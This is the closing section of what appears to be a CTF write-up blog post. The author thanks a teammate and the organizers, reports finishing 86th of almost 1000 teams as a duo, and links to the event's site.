## Conclusion

There are a lot of challenges i didn't talk about, as they were easy enough that they didn't need their own spot.

My teammate [peterfab](https://peterfab.com) also helped a TON, did a lot of the cryptography challenges, and overall i wouldn't have done it without him. Thank you <3

Overall, i had a ton of fun, and i look forward to next year's CTF.

We also finished #86 out of almost 1000 teams, all while being just a duo!

Big thanks to all the organizers, putting together such a smooth sailing and fun event, you are awesome.

If you want to try doing some of these yourself, or look at the leaderboards, you can look [here](https://ctf.osugaming.lol/).
